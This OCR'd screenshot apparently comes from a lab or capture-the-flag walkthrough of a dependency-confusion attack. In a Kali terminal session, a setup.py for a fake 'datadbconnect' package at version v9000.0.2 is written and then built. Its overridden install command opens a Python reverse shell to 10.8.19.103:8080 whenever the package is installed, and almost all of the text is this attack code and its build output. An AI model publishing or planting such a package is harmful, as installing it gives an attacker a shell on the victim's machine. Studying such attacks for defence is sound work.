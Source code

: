 ```
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),


rce version

┌──(witty㉿kali)-[~/Downloads/confusion_dependency]
└─$ nano setup.py 
                                                                                   
┌──(witty㉿kali)-[~/Downloads/confusion_dependency]
└─$ cat setup.py 
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         print ("Hello World from installer, this proves our injection works")
         os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.19.103",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
        cmdclass={
            'install': PostInstallCommand
        },
)

┌──(witty㉿kali)-[~/Downloads/confusion_dependency]
└─$ python3 setup.py sdist
/usr/lib/python3/dist-packages/setuptools/dist.py:529: UserWarning: Normalizing 'v9000.0.2' to '9000.0.2'
  warnings.warn(tmpl.format(**locals()))
running sdist
running egg_info
creating datadbconnect.egg-info
writing datadbconnect.egg-info/PKG-INFO
writing dependency_links to datadbconnect.egg-info/dependency_links.txt
writing top-level names to datadbconnect.egg-info/top_level.txt
writing manifest file 'datadbconnect.egg-info/SOURCES.txt'
reading manifest file 'datadbconnect.egg-info/SOURCES.txt'
writing manifest file 'datadbconnect.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

```